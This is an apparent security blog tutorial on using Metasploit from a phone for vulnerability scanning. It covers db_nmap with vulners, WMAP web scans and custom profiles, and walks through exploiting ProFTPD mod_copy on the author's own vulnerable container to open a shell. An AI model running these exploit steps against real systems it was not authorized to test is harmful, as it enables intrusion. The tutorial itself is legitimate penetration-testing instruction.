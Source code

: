 ```yaml
---
title: 'Vulnerability Scanning with Metasploit'
layout: post
published: true
permalink: vulnerability-scanning-metasploit
tags: all, linux, security, vulnerabilities, vulnerability, metasploit
---
```


In testing Kali Nethunter on my OnePlus One I have been on the hunt for tools and workflows that can run on something as lightweight as an Android phone. I also want to see how far I can get without me having to run an external server. 

Vulnerability scanning using OpenVAS, Nessus, or anything else is definitely not something that runs well on lightweight hardware. In my experience, a dedicated vulnerability scanner is pretty resource intensive.

So in using Metasploit as my primary tool for exploiting vulnerable software, I wanted to document some tips I've found to do vulnerability scanning using Metasploit. I will update this post if I find more workflows.

## Nmap + Metasploit:
 
I recently found out that you can use `nmap` directly from Metasploit using the `db_nmap` module. Using this module is really nice because you can get the service results imported directly into Metasploit.

Here's an example `db_nmap` command in Metasploit:

```bash
msf6 > db_nmap -sV 192.168.1.5
```

Here's the output (this host is running my [vulnerable Docker container](https://hub.docker.com/r/heywoodlh/vulnerable)):

```bash
msf6 > db_nmap -sV 192.168.1.5
[*] Nmap: Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-08 03:47 UTC
[*] Nmap: Nmap scan report for 192.168.1.5 (192.168.1.5)
[*] Nmap: Host is up (0.12s latency).
[*] Nmap: rDNS record for 192.168.1.5: 192.168.1.5.vultr.com
[*] Nmap: Not shown: 991 closed ports
[*] Nmap: PORT     STATE    SERVICE     VERSION
[*] Nmap: 21/tcp   open     ftp         ProFTPD 1.3.5
[*] Nmap: 22/tcp   open     ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
[*] Nmap: 25/tcp   filtered smtp
[*] Nmap: 80/tcp   open     http        Apache httpd 2.4.7 ((Ubuntu))
[*] Nmap: 139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
[*] Nmap: 445/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
[*] Nmap: 631/tcp  open     ipp         CUPS 1.7
[*] Nmap: 6667/tcp open     irc         UnrealIRCd
[*] Nmap: Service Info: Hosts: VULN, irc.TestIRC.net; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 18.18 seconds
```

Now, Metasploit is aware of those services on that host. Check with the `services` command:

```bash
msf6 > services
Services
========

host          port  proto  name         state     info
----          ----  -----  ----         -----     ----
192.168.1.5  21    tcp    ftp          open      ProFTPD 1.3.5
192.168.1.5  22    tcp    ssh          open      OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 Ubuntu Linux; proto
                                                  col 2.0
192.168.1.5  25    tcp    smtp         filtered
192.168.1.5  80    tcp    http         open      Apache httpd 2.4.7 (Ubuntu)
192.168.1.5  139   tcp    netbios-ssn  open      Samba smbd 3.X - 4.X workgroup: WORKGROUP
192.168.1.5  445   tcp    netbios-ssn  open      Samba smbd 3.X - 4.X workgroup: WORKGROUP
192.168.1.5  631   tcp    ipp          open      CUPS 1.7
192.168.1.5  6667  tcp    irc          open      UnrealIRCd
```

With `db_nmap` it will automatically import vulnerabilities if you use any of `nmap`'s vulnerability scanning scripts.

Here's an example command:

```bash
msf6 > db_nmap -sV --script=vulners.nse 192.168.1.5
```

Once that command completed, I could use the `vulns` command to check out the exploits stored in Metasploit that were discovered using `nmap`:

```bash
msf6 > vulns

Vulnerabilities
===============

Timestamp                Host          Name                             References
---------                ----          ----                             ----------
2021-08-08 03:55:55 UTC  192.168.1.5  cpe:/a:proftpd:proftpd:1.3.5     CVE-2015-3306,SAINT:950EB68D408A40399926A4CCAD3CC62E,SAINT:63FB77B9136D48259E4F0D4CDA35E957,SAINT:1B08F4664C428B180EEC9617B41D9A2C,PROFTPD_MOD_COPY,PACKETSTORM:162777,PACKETSTORM:132218,PACKETSTORM:131567,PACKETSTORM:131555,PACKETSTORM:131505,MSF:EXPLOIT/UNIX/FTP/PROFTPD_MODCOPY_EXEC,EDB-ID:49908,EDB-ID:37262,EDB-ID:36803,EDB-ID:36742,1337DAY-ID-23720,1337DAY-ID-23544,SSV:61050,MSF:ILITIES/SUSE-CVE-2019-18217/,CVE-2019-19272,CVE-2019-19271,CVE-2019-19270,CVE-2019-18217,CVE-2016-3125,CVE-2013-4359,CVE-2017-7418

<snipped>
```

You can see there is a vulnerability that Metasploit has an exploit for in the above output of `vulns`:

```
MSF:EXPLOIT/UNIX/FTP/PROFTPD_MODCOPY_EXEC
```

So let's exploit it:

```bash
msf6 > use exploit/unix/ftp/proftpd_modcopy_exec
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set RHOSTS 192.168.1.5
RHOSTS => 192.168.1.5
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set SITEPATH /var/www/html
SITEPATH => /var/www/html
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set payload cmd/unix/bind_awk 
payload => cmd/unix/bind_awk
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > run 

[*] 192.168.1.5:80 - 192.168.1.5:21 - Connected to FTP server
[*] 192.168.1.5:80 - 192.168.1.5:21 - Sending copy commands to FTP server
[*] 192.168.1.5:80 - Executing PHP payload /VlrUb.php
[*] Started bind TCP handler against 192.168.1.5:4444
[*] Command shell session 1 opened (0.0.0.0:0 -> 192.168.1.5:4444) at 2021-08-08 04:21:30 +0000
```

There we go! Shell created using the results of a vulnerability scan performed on an Android phone. Epic.

I would recommend using more `nmap` vulnerability scanning scripts with Metasploit's `db_nmap` module. I found this article very useful on vulnerability scanning with `nmap`: 

[How to Detect CVEs Using Nmap Vulnerability Scan Scripts](https://securitytrails.com/blog/nmap-vulnerability-scan)

## Web Application Vulnerability Scans:

This was also news to me, but Metasploit has a built-in web application vulnerability scanning module: WMAP:

[WMAP Web Scanner](https://www.offensive-security.com/metasploit-unleashed/wmap-web-scanner/)

The documentation for WMAP in somebody else's old Github repo of Metasploit's outlines what makes WMAP special:

[https://github.com/lattera/metasploit/blob/master/documentation/wmap.txt](https://github.com/lattera/metasploit/blob/master/documentation/wmap.txt)

It doesn't look like it's been updated for 10 years. Per the explanation in the link above, WMAP will use information stored in the database to intelligently attack your target. In addition, you can create WMAP profiles to use newer or even custom modules in Metasploit -- this makes WMAP extensible and still relevant.

Let's try it out.

First, load `wmap` and configure your target:

```
msf6 > load wmap

.-.-.-..-.-.-..---..---.
| | | || | | || | || |-'
`-----'`-'-'-'`-^-'`-'
[WMAP 1.5.1] ===  et [  ] metasploit.com 2012
[*] Successfully loaded plugin: wmap
msf6 > wmap_sites -a http://192.168.1.5
[*] Site created.
msf6 > wmap_targets -t http://192.168.1.5/drupal
msf6 > wmap_targets -l
[*] Defined targets
===============

     Id  Vhost         Host          Port  SSL    Path
     --  -----         ----          ----  ---    ----
     0   192.168.1.5  192.168.1.5  80    false  /drupal
```

Next, run tests against your target:

```
msf6 > wmap_run -t
[*] Testing target:
[*] 	Site: 192.168.1.5 (192.168.1.5)
[*] 	Port: 80 SSL: false
============================================================
[*] Testing started. 2021-08-08 04:43:27 +0000
[*] Loading wmap modules...
<snipped>
```

Finally, run your scan:

```
msf6 > wmap_run -e 
[*] Using ALL wmap enabled modules.
[-] NO WMAP NODES DEFINED. Executing local modules
[*] Testing target:
[*] 	Site: 192.168.1.5 (192.168.1.5)
[*] 	Port: 80 SSL: false
============================================================
[*] Testing started. 2021-08-08 04:50:06 +0000
[*] 
=[ SSL testing ]=
============================================================
[*] Target is not SSL. SSL modules disabled.
[*] 
=[ Web Server testing ]=
============================================================
[*] Module auxiliary/scanner/http/http_version

[+] 192.168.1.5:80 Apache/2.4.7 (Ubuntu)
[*] Module auxiliary/scanner/http/open_proxy
[*] Module auxiliary/admin/http/tomcat_administration
<snipped>
```

### Using Custom WMAP profiles:

In the [Metasploit Github repo](https://github.com/rapid7/metasploit-framework) there is some documentation showing how you can extend WMAP to use other modules using WMAP profiles:

[wmap_sample_profile.txt](https://github.com/rapid7/metasploit-framework/blob/master/data/wmap/wmap_sample_profile.txt)

Here's the file:
```
# 
# WMAP 1.0 Sample Profile
# wmap_run -e /path/to/profile
#
# Just add the name of the module. Use # for comments
#
frontpage
frontpage_login
options 
version 
backup_file 
#blind_sql_query 
#brute_dirs 
copy_of_file 
dir_listing 
dir_scanner
file_same_name_dir
writable
```

You can see from the comments in the file that you can extend WMAP to use other modules. This makes WMAP really useful as you can test newer or custom Metasploit modules against a web server.

So as an easy example, you could use that example profile, place it in `/tmp/wmap-profile` and then run the WMAP profile with the following command in Metasploit:

```
msf6 > wmap_run -e /tmp/wmap-profile
```

As I stated earlier, this makes WMAP extensible and will probably keep it forever useful as Rapid 7 continues to create and update Metasploit's modules.
